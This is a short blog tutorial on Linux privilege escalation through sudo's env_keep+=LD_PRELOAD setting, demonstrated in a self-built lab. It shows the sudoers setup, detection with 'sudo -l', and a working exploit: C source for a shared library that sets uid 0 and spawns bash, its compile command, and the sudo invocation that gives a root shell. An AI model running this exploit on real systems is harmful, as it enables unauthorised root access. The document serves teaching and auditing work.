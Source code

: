 ```yaml
---
layout: post
title: Privilege Escalation - SUDO - LD_PRELOAD
date: 2021-02-08 14:39:00
categories: posts
comments: false
en: true
---
```


##### Preamble

LD_PRELOAD is an enviromental variable, commonly used within C programming. This variable is implemented in order to load any library prior to any other form of shared library.
Nonetheless, if this is run under high privileges, and the variable is hijacked into a malicious file, a Privilege Escalation vector shall be found.

##### Creating the scenario.

In order to use LD_PRELOAD within sudo, we must configure /etc/sudoers:

```
#
# This file MUST be edited with the 'visudo' command as root.
#
# Please consider adding local content in /etc/sudoers.d/ instead of
# directly modifying this file.
#
# See the man page for details on how to write a sudoers file.
#
```
```term
Defaults        env_reset, env_keep+=LD_PRELOAD
```
```
Defaults        mail_badpass
Defaults        secure_path="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"

# Host alias specification

# User alias specification

# Cmnd alias specification

# User privilege specification
root    ALL=(ALL:ALL) ALL
```
```term
pipe    ALL=NOPASSWD:/usr/bin/ping
```
```
# Allow members of group sudo to execute any command
%sudo   ALL=(ALL:ALL) ALL

# See sudoers(5) for more information on "#include" directives:

#includedir /etc/sudoers.d
```

If you glance at the file, you may see that the first highlighted line sets the flag for ```LD_PRELOAD```. In addition, the user ```pipe``` is given the privilege of 
executing ```SUDO``` in ```/usr/bin/ping```. However, ping is useless when it comes to ```SUDO``` exploitation, therefore, ```LD_PRELOAD``` is the only possible vector.

##### Detection

Detecting this vulnerability is quite simple.

```term
pipe@whitecr0wz:/tmp$ sudo -l
Matching Defaults entries for pipe on whitecr0wz:
    env_reset, env_keep+=LD_PRELOAD, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User pipe may run the following commands on whitecr0wz:
    (root) NOPASSWD: /usr/bin/ping
pipe@whitecr0wz:/tmp$
```

Take a glance at the flag ```env_keep+=LD_PRELOAD```, this means that we can set ```LD_PRELOAD```.

##### Exploitation

In order to exploit this vector, we require a binary that uses the value given in the ```LD_PRELOAD``` variable. A great example of such should be the following.

```term
pipe@whitecr0wz:/tmp$ cat rootshell.c 
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
pipe@whitecr0wz:/tmp$
```

This is compiled.

```term
pipe@whitecr0wz:/tmp$ gcc rootshell.c -o rootshell -fPIC -shared -nostartfiles -w 
pipe@whitecr0wz:/tmp$
```

#### Profit

```term
pipe@whitecr0wz:/tmp$ sudo LD_PRELOAD=/tmp/rootshell ping 
root@whitecr0wz:/tmp#
```
